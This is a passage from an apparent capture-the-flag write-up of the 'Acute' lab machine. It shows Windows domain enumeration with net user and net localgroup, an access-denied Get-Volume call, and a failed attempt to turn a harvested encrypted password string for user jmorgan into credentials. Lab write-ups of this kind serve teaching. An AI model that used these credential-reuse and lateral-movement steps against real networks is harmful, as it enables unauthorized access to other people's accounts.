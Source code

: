 I’m not able to get to the DC to get information about jmorgan:

```

PS C:\Utils> net user jmorgan /domain
net user jmorgan /domain
The request will be processed at a domain controller for domain acute.local.

System error 1722 has occurred.

The RPC server is unavailable.

```

But, it does seem that domain user is in the local administrator group for Acute-PC01:

```

PS C:\Utils> net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
ACUTE\Domain Admins
ACUTE\jmorgan
Administrator
The command completed successfully.

```

That explains why they may be able to run `Get-Volume` whereas edavies cannot:

```

PS C:\Utils> Get-Volume
Get-Volume : Cannot connect to CIM server. Access denied 
At line:1 char:1
+ Get-Volume
+ ~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (MSFT_Volume:String) [Get-Volume], CimJobException
    + FullyQualifiedErrorId : CimJob_BrokenCimSession,Get-Volume

```

### Execution

#### Failure #1

My initial thought is to use that `$securepasswd` to get a `PSCredential` object for jmorgan on Acute-PC01:

```

PS C:\Utils> $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'                                   
PS C:\Utils> $passwd = $securepasswd | ConvertTo-SecureString
ConvertTo-SecureString : Key not valid for use in specified state.
At line:1 char:27                                   
+ $passwd = $securepasswd | ConvertTo-SecureString
+                           ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [ConvertTo-SecureString], CryptographicException
```